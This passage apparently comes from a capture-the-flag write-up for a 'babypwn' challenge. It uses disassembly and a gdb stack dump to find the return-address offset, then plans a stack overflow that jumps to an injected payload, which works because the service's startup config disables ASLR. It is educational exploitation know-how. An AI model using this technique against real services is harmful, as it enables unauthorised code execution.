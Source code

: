 > Why 18?  It's the length of the stack frame in 8-byte words.  This can be
> computed from the start of the function:  
>  
> ```assembly  
> 00101440 41 54           PUSH       R12  
> 00101442 49 89 fc        MOV        R12,param_1  
> 00101445 55              PUSH       RBP  
> 00101446 48 83 ec 78     SUB        RSP,0x78  
> ```  
>  
> Two pushes and a `SUB` = `8 + 8 + 0x78 = 136`, then add 8 for the return
> address pushed from call for a total of 144 bytes.  `144 / 8 = 18`.

Output:

```gdb  
0x00007fffffffe720│+0x0000: 0x1be3e93037b0d224   ← $rsp  
0x00007fffffffe728│+0x0008: 0x65eb4ac4ed908384  
0x00007fffffffe730│+0x0010: 0x1be3e90041414141 ("AAAA"?)         ← $rax, $rbp  
0x00007fffffffe738│+0x0018: 0x65eb4ac4ed908384  
0x00007fffffffe740│+0x0020: 0x00000000000000f8  
0x00007fffffffe748│+0x0028: 0x0000000000000000  
0x00007fffffffe750│+0x0030: 0x0000000000000000  
0x00007fffffffe758│+0x0038: 0x0000000000000000  
0x00007fffffffe760│+0x0040: 0x0000000000000000  
0x00007fffffffe768│+0x0048: 0x0000000000000000  
0x00007fffffffe770│+0x0050: 0x0000000000000000  
0x00007fffffffe778│+0x0058: 0x0000000000000000  
0x00007fffffffe780│+0x0060: 0x0000000000000000  
0x00007fffffffe788│+0x0068: 0x0000000000000000  
0x00007fffffffe790│+0x0070: 0x0000000000000003  
0x00007fffffffe798│+0x0078: 0x0000000000000003  
0x00007fffffffe7a0│+0x0080: 0x00007fffffffe7b0  →  "CSR{this-is-not-the-real-
flag}\n"  
0x00007fffffffe7a8│+0x0088: 0x0000555555555176  →  <main+150> test eax, eax  
```

Line `+0x0088` is the return address (the `<main+150> test eax, eax` is also a
give away) and it is exactly `0x78` from line `+0x0010` (see our `AAAA`) as
expected.

So we should be able to write an even number of `A` (e.g. 6), followed by a
couple of nulls to terminate the string, followed by our payload plus padding
to line `+0x0088` where we would put in the address of our payload
`0x00007fffffffe738`.  And if you're wondering why this does not change, well,
it's because ASLR is disabled in their service startup script `babypwn_svc`:

```  
service babypwn  
{  
   type         = UNLISTED  
   protocol     = tcp  
   socket_type  = stream  
   port         = 6666  
   server       = /usr/bin/setarch  
   server_args  = x86_64 --addr-no-randomize /home/ctf/babypwn  
   user         = ctf  
   wait         = no  
   env          =
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin  
}  
```
